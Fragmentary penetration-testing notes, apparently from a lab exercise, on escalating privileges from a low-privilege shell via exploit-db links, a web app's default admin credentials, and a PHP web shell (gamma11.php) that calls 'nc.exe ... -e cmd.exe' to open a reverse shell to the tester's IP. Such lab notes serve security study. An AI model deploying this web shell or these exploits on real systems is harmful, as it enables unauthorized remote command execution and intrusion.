

at low privilege shell.... seems like i need to redirect input/outpot to the semsvc service on an expoit of
https://www.exploit-db.com/exploits/31853/
or try this:
httpd.exe has bad permissions
https://www.exploit-db.com/exploits/40967/
If you see "login", you are not connected !
After installation, you can use the default administrator user :
nickname = admin@admin.bab
password = 012345678
Declare some other users by administrator interface or by the users themselves
We recommand you to declare a new user as administrator. After that, you must delete default administrator for security.
root@kali:/var/www/html# cat gamma11.php
<?php
$output = shell_exec('nc.exe 10.11.0.175 4444 -e cmd.exe');
echo "<pre>$output</pre>";
?>
root@kali:/var/www/html#

click on access rights: